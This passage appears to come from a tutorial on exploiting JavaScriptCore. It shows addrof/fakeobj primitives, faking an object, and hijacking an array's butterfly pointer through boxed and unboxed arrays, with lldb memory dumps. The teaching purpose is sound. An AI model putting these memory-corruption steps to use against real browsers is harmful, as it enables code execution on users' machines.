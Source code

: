 ```javascript
f64[0] = addrof(outer)
u32[0] += 0x10

var hax = fakeobj(f64[0]);
``` 
Now let's try writing to `hax[1]`, just a bunch of garbage data. We now want to follow the butterfly pointer because that's where we're going to be writing:
```python
>>> hex(f2i(addrof(hax)))
0x7fffb3488010
>>> Process 246776 stopped
* thread #1, name = 'jsc', stop reason = signal SIGSTOP
    frame #0: 0x00007ffff63749cc libc.so.6`__GI___libc_read at read.c:26:10
(lldb) x/2wgx 0x7fffb3488010
0x7fffb3488010: 0x0109200900000200 0x00007fffb34c1fa0
(lldb) x/2wgx 0x00007fffb34c1fa0
0x7fffb34c1fa0: 0x010824070000545c 0x00007fe02a4ca188
(lldb)
0x7fffb34c1fb0: 0x010824070000547b 0x00007fe02a4ca1b8
```
Let's try with a bunch of A's (`>>> hax[1] = 0x41414141414141414141414141414141`): 
```python
(lldb) x/2wgx 0x00007fffb34c1fa0
0x7fffb34c1fa0: 0x0108240700004f98 0x47d2505050505050
(lldb)
0x7fffb34c1fb0: 0x0108240700004fa8 0x00007ff8236ca1b8
```
We see that something clearly changed. We now want a way to control what's written. Remember from before, when we talked about how ArrayOfContiguous could handle pointers, and ArrayOfDoubles could not, but we could put in what we later wanted to be pointers? To do this, we introduce two new functions, typically called unboxed and boxed. 
```javascript
var unboxed = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37]
unboxed[0] = 4.2 // convert `CopyOnWriteArrayWithDoubles` to `ArrayWithDoubles`
			     // read that this was to avoid JSC optimizing unboxed to a wrong type
var boxed = [{}];
```
So we create an unboxed function for handling when we want to change a value, and boxed for when we want it to be seen as a pointer. We now want to change the victim butterfly, so we can control where we're writing. We can do this as follows:
```javascript
hax[1] = unboxed // change the value to be of type unboxed
var tmp_butterfly = victim[1]; // get the current butterfly, we're now dealing with doubles
hax[1] = boxed // change the value to contiguous
victim[1] =  tmp_butterfly; // write the double pointer in, we now control the ptr
``` 
Now remember how we previously defined the outer, with the flags_contiguous? Meaning that it doesn't really handle doubles very well? Well, to use all this work, we need to change outer's header to be the flags for double. I spent a couple of hours here missing why it wasn't working. So don't worry if it's confusing. It just is.
```javascript
outer.cell_header = flags_arr_double
```
I would love to draw a nice flow chart of what exactly is happening here and make it animated, but LiveOverflow already did at https://liveoverflow.com/preparing-for-stage-2-of-a-webkit-exploit/. I highly recommend checking that out before continuing here to fully understand the flow. 
